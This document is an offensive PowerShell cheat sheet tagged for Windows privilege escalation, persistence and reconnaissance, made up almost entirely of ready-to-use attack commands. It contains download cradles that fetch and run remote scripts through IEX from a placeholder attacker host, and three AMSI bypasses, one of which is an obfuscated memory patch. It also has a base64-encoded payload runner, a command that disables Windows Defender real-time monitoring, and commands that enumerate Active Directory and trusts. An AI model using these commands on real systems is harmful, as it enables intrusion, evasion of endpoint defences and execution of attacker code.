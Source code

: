 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Get file in trash
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```powershell
Get-Process
```

## Get Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Get language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Bypass AMSI with _amsiContext_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI by patching (work for .NET binaries too)

more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Verify PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verify application whitelisting
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
https://github.com/dafthack/HostRecon

```
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck
https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## powershell view assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## powershell get proxy address
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```

## powershell set proxy
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - generate base64 encoded payload download runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```

## powershell - disable Real Time Monitoring (Windows Defender)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```